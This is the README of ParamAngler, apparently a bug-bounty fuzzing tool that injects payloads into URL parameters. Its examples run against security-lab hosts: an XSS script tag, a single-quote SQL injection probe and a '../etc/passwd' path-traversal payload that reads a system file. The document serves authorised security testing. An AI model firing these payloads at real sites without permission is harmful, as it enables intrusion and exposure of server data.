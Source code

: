# ParamAngler

Introducing ParamAngler - the ultimate tool for testing specific payloads on each parameter. The name ParamAngler is a combination of two words - 'parameters' and 'angler'. An angler is someone who enjoys fishing with a rod and line, and with ParamAngler, you can fish for bugs on a much larger scale.

Whether you're looking for XSS, LFI, SQLi, or other vulnerabilities in your web application, ParamAngler has got you covered. With its powerful and easy-to-use features, you can search for reflected parameters, test for payloads, and much more.

Say goodbye to tedious manual testing and hello to ParamAngler - your new go-to tool for comprehensive and efficient web application testing. Try ParamAngler today and start reeling in those bugs!

# Instalation

With go you can use this command

```
go install github.com/spyx/ParamAngler@latest
```

# Usage

```bash
$ ParamAngler  -h                       

.__               .__.           
[__) _.._. _.._ _ [__]._  _ | _ ._.
|   (_][  (_][ | )|  |[ )(_]|(/,[  
                         ._|       


Remember that bug bounty and security tools should only be used ethically and responsibly.
Misuse of these tools can lead to harm and legal consequences.
Use these tools with caution and obtain permission before performing any testing or analysis.

Usage: ParamAngler [OPTIONS]
Options:
  -a    flag indicating whether to append payload to existing parameter value or replace it entirely
  -f string
        input file containing list of URLs
  -h    display usage information
  -mc string
        HTTP response code(s) to filter on (comma-separated)
  -ms string
        String to search for in the response body
  -p string
        payload to replace or append parameter values with
  -s    hide banner
  -t int
        Number of goroutines to use (default 1)

```

## Example of testing XSS

```
cat xss.txt | ParamAngler -mc 200 -ms alert -p "<script>alert(1)</script>" -t 10 -s                              
https://0abd007403fc917cc561317200f20054.web-security-academy.net/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E
```

We are filter responses to return only **200** code and there has to be **alert** text in response body. We alse set -s parameter to sillent banner and set thread by -t flag to 10 


## Example of SQLi testing

```
cat sql.txt | ParamAngler -mc 500 -p \' -a -t 20
https://0a7e001a039591bfc50737d800250075.web-security-academy.net/filter?category=Lifestyle%27
https://0a7e001a039591bfc50737d800250075.web-security-academy.net/filter?category=Corporate+gifts-%27
https://0a7e001a039591bfc50737d800250075.web-security-academy.net/filter?category=Corporate+gifts%27
https://0a7e001a039591bfc50737d800250075.web-security-academy.net/filter?category=Accessories%27
https://0a7e001a039591bfc50737d800250075.web-security-academy.net/filter?category=Pets%27
https://0a7e001a039591bfc50737d800250075.web-security-academy.net/filter?category=Corporate+gifts%22%27
```

We use simple quote as payload but with -a flag we append this quote to existing payload. We are filtering by 500 error code which usually can suggest SQLinjection


## Example of LFI

```
cat lfi.txt | go run main.go -ms root -p "../../../../../etc/passwd" -t 10
https://0a21001903252a0ac0e5727c0060004c.web-security-academy.net/image?filename=..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd  
```

Similar as XSS example but now we are looking for root string on response body

## TODO

- [ ] - Add support for proxy  